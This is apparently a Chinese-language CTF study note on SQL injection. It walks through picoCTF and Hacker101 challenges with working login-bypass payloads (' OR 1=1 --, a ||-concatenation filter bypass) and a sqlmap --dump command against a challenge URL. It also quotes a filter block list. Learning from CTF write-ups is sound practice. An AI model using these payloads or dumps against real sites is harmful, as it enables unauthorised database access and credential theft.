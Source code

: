 # SQL injection
## 簡介
sql為資料庫語言，會透過形如下面的指令進行資料查詢  
```sql
SELECT username, password FROM users WHERE username='<input>'  AND password='<input>'
```
上面的指令會從 users 資料表中選取 username, password的欄位進行你<input> 比對  
其中，SQL語言當中的註解符號多為 -- (有些版本也有 #  
邏輯可以使用=, OR, AND, IS NOT等......
特殊語法還有 ```||``` 是將兩個字串合併的動作
## 攻擊手法
如果端或者再輸入前沒有任何檢查的動作，攻擊者可以使用特殊的輸入進行查詢的繞過  
### Example 1
#### picoCTF 2019 Irish-Name-Repo 1
在網站中會看到一個admin login，明顯就是再提示你要試著登入  
使用Username ```' OR 1=1 --``` 就可以登入了(注意到他會執行的查詢是
```sql
SELECT username, password FROM users WHERE username='' OR 1=1 --'  AND password='<input>'
``` 
)  
於是他會選取使得1=1成立的所有資料，而密碼比對的部分則被我們輸入的payload用 ```--``` 註解掉了
### Example 2
#### picoCTF 2021 Web Gauntlet 3
會發現一個 filter.php檔案，當中記載了不可以使用的字元如下    
```
Filters: or and true false union like = > < ; -- /* */ admin
```
哇，剛剛的payload顯然會被擋下   
這時候可以使用剛剛介紹的字元 ```||``` 進行字串合併以及邏輯 IS NOT來撘配  
使用Username ad'||'min 以及 Password a' IS NOT 'b即可登入拿到flag了  
## Sqlmap
一款非常好使用得sql工具，主要針對網址後面有 ```?id=1``` 這種sql查詢語法的網站進行滲透測試  
[官網](https://sqlmap.org/)  
### Example 1
#### Hacker101CTF Photo Gallery
查詢圖片網址發現形如 ```https://62a4f441f2d16b1fa7f0e82d220f44ed.ctf.hacker101.com/fetch?id=1```  
二話不說打開sqlmap  
```python sqlmap.py -u "https://62a4f441f2d16b1fa7f0e82d220f44ed.ctf.hacker101.com/fetch?id=1" --dump ```  
結束~~拿到flag
